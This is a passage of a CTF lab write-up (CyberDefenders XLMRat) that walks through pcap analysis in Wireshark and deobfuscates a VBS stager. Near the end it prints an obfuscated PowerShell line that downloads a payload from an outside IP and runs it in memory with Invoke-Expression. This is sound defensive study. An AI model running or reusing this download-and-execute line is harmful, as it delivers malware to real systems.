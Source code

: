 CyberDefenders CTF Lab XLMRat
---

https://cyberdefenders.org/blueteam-ctf-challenges/xlmrat/

#### Scenario

Analyze network traffic to identify malware delivery, deobfuscate scripts, and map attacker techniques using MITRE ATT&CK, focusing on stealthy execution and reflective code loading.


#### Machine Environment 

- Windows 10 running in VMware workstation
- Flare Windows Install https://github.com/mandiant/flare-vm
- WireShark


### 1.  The attacker successfully executed a command to download the first stage of the malware. What is the URL from which the first malware stage was installed?
---

This pcap consists of 2 host conversations.
	
Wireshark -> Statistics -> Conversations

![image](https://github.com/user-attachments/assets/fe8eb902-92f8-42c3-86f2-251547f74dae)

The first GET request is for a xlm.txt file sourced from 10.1.9.101 and destined to 45.126.209.4

![image](https://github.com/user-attachments/assets/5387616c-63b1-4456-883b-c174120e23e0)

Use WireShark to export the HTTP files to your Windows Flare VM
	
File -> Export Objects -> HTTP

![image](https://github.com/user-attachments/assets/43b4cef2-81a7-46b1-93e1-0bba88230c9c)

The xlm.txt file contains a Visual Basic Script (VBS) that declares an array and stores pieces of code that gets concatenated using a for loop.

![image](https://github.com/user-attachments/assets/bf331842-daba-41a5-abca-11a863e6ae8d)

***RUN CODE AT YOUR OWN RISK
 
By placing the wscript.echo command we can view the output of the variable to the console.

![image](https://github.com/user-attachments/assets/96a50816-aebd-4861-b747-3c543bc282e9)

Open a command prompt and run the .vbs file with cscript.exe displaying the output. 

![image](https://github.com/user-attachments/assets/14dea8b7-4225-46fc-9493-9841ff497ff3)

Bring the output into a text editor and clean it up.  The "[BYTe[]]" lines are not useful and probably a way to confuse people and machine.  

	$A123 = "IeX(NeW-OBJeCT NeT.W"
	$B456 = "eBCLIeNT).DOWNLO"
	$C789 = "'VAN(''http://45.126.209.4:222/mdm.jpg'')'.RePLACe('VAN','ADSTRING')"
	IeX($A123+$B456+$C789)

This script downloads the first stage of malware and executes in into memory using Invoke-Expression (IeX)























